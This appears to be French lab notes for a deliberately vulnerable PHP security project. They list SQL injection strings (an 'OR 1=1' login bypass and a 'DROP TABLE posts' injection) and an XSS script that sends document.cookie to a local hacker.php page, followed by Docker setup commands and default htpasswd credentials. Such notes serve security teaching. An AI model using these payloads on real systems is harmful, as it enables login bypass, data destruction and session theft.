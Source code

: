 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1.


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost:81/xss/hacker.php?cookie='+escape(document.cookie)</script>


------------------------------------------------
#clonner le projet
git clone https://github.com/achrafnh/php-secu.git
cd php-secu

#lancer le projet
docker-compose up -d 

#verivier que les containers snt creer 

docker ps 

#acceder a mysql en CLI 

docker exec -it mysql bash 

# pour se connecter la base le user et le password et sur .env  
mysql -u root -p
show databses;
use dbtest;
show tables;



pour arrete le projet 

docker-compose down

#ou cas ou le projet et deja cloner 
git pull


#htacces htpasswd
admin 
admin123
